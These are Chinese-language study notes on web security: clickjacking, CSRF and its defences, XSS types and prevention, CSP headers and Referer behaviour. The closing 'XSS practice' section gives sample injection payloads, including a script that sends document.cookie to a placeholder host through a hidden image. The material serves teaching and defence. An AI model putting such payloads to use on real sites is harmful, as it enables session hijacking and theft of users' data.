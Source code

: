 # web 安全

## 点击劫持

原理：攻击者使用透明的 iframe 覆盖在网页上，诱使用户在点击，

1. flash 点击劫持：用过 flash 游戏，让用户完成一系列复杂的操作
2. 图片覆盖攻击 Cross Site Image Overlaying（XSIO）：

## [CSFR](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)

### 概念

- 在受骗者已经登录对应网站生成 cookie 后，攻击者做一个网站让受骗者点击，这时受骗者的 cookie 还在，那么这个构造的网站就能够利用受骗者的 cookie 执行网站恶意请求
- CSRF 攻击是黑客借助受害者的 cookie 骗取服务器的信任，但是黑客并不能拿到 cookie，也看不到 cookie 的内容

### 特点

1. 发生在第三方域名
2. 不能获取到 cookie 只是借用（在请求参数中加上 cookie 并让服务器验证），但是跨域请求拿不到 cookie

### 攻击方式

由于 AJAX 是不支持跨域发送请求的，所以我们只能够用支持跨域请求的 img、script、form 表单来发起请求，这些请求的限制性很强

1. 通过 img\iframe\script 发起 get 请求
   - 由于 get 请求只能获取信息，不会修改数据库中信息，所以一般 get 请求伪造的影响较小。
2. 通过 js 提交 form 表单发起 post 请求
   - post 请求一般是通过表单发送，而表单请求不能修改请求头，也不能带上 query，所以这就是 token 防止 csrf 的原因

### [防护](https://zhuanlan.zhihu.com/p/40588156)

- referer check

- 验证码

- anti csfr token（普遍做法）

- **验证 HTTP Referer 字段；在请求地址中添加 token 并验证；在 HTTP 头中自定义属性并验证**

- 同源检测防护
  1. origin（没有 path 和 query）
     - 在 IE 同源定义不一致
     - 302 重定向
       2 referer check（请求的来源地址）
  - 可以被修改
- csfr `Token`
  在会话中存储 CSRF Token 比较繁琐，而且不能在通用的拦截上统一处理所有的接口

- `验证码`和密码
  确认是用户自身的行为

- 双重 cookie 验证，生成一个随机 cookie 并且在请求时附带在 url 里面，后端就可以验证

- cookie 设置 samesite 属性、如果 SamesiteCookie 被设置为 Strict，浏览器在任何跨域请求中都不会携带 Cookie

## [XSS：跨站脚本攻击](https://www.freebuf.com/articles/web/185654.html)

[XSS](https://juejin.im/post/5bad9140e51d450e935c6d64#heading-13)

HTMl 注入插入恶意脚本，篡改网页，在用户浏览网页时，控制用户浏览器的一种攻击，一开始的演示案例是跨域的。

1. 攻击者提交恶意代码。
2. 浏览器执行恶意代码。

### 分类：

1. 存储型 XSS：也叫持久性 XSS，恶意代码提交到`服务器端`中，`服务端`拼接 html 返回，再在前端解析执行。常见于评论、私信、发博客。所有查看了该博客该评论的用户，都会执行这段恶意脚本
2. **反射性**XSS：也叫非持久性 XSS，输入恶意代码，通过`URL`提交执行，`服务端`取出恶意代码，拼接在 html 时返回，浏览器请求再执行恶意代码。
3. Dom 型 XSS：`前端`取出`URL`中的恶意代码执行，通过修改页面的 dom 节点形成的 XSS，称为 dom based XSS。

### 攻击方式

- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:…"); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(…) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

### 危害

1. document.cookie 获取 cookie 实现 cookie 劫持，可以通过绑定 IP 防御
2. 通过动态插入 img，在 src 赋值上构造 get 请求构造 get 请求
3. 通过动态添加 post 请求的 form 标签，构造 post 请求
4. 也可以直接通过 ajax 请求发送构造请求

### 预防

1. 设置 httponly 缓解 xss，可以通过 trace 请求读取 httponly cookie 反
2. 输入检查，输出检查
3. 输入过滤（输入侧过滤能够在某些情况下解决特定的 XSS 问题，但会引入很大的不确定性和乱码问题。在防范 XSS 攻击时应避免此类方法。）
4. 预防存储型和反射型 XSS 攻击：改成纯前端渲染、充分转义
5. 预防 DOM 型 XSS 攻击：避免使用 DOM 中的内联事件监听器，
6. 使用 CSP

## [CSP（Content Security Policy）内容安全策略检查](http://www.ruanyifeng.com/blog/2016/09/csp.html)

- "网页安全政策"， CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单

- 如果只允许加载自己域的图片，可以 加上这个 meta 标签`<meta http-equiv="Content-Security-Policy" content="img-src 'self';">`

- `Content-Security-Policy: script-src 'self'`

- `Content-Security-Policy: default-src 'self'`

- 或者后端设置这个 http 响应头，self 表示本域，如果加载其他域的图片浏览器会报错

- ![image](https://pic4.zhimg.com/v2-bf28b28cd47bbab12b052811d52a1223_b.jpg)

- ```http
  Content-Security-Policy: script-src 'self'; object-src 'none';
  style-src cdn.example.org third-party.org; child-src https:
  ```

  - 脚本：只信任当前域名
  - `<object>`标签：不信任任何 URL，即不加载任何资源
  - 样式表：只信任`cdn.example.org`和`third-party.org`
  - 框架（frame）：必须使用 HTTPS 协议加载
  - 其他资源：没有限制

  参考：[前端安全配置之 Content-Security-Policy(csp)](https://www.cnblogs.com/heyuqing/p/6215761.html)

### **referer**

在以下两种情况下，Referer 不会被发送：
来源页面采用的协议为表示本地文件的 "file" 或者 "data" URI；
当前请求页面采用的是非安全协议，而来源页面采用的是安全协议（HTTPS）。

### XSS 实践

页面中插入链接点击会执行

```
<a href="javascript:alert(localStorage)">跳转</a>

<a href="http://xxx/search?keyword="><script>alert('XSS');</script>"></a>
=>拼接后
<input type="text" value=""><script>alert('XSS');</script>">
```

发送 cookie 给对应站点

```
  var img = document.createElement('img')
  img.src='http://www.xss.com?cookie=' + document.cookie
  img.style.display='none'
  document.getElementsByTagName('body')[0].appendChild(img)
```
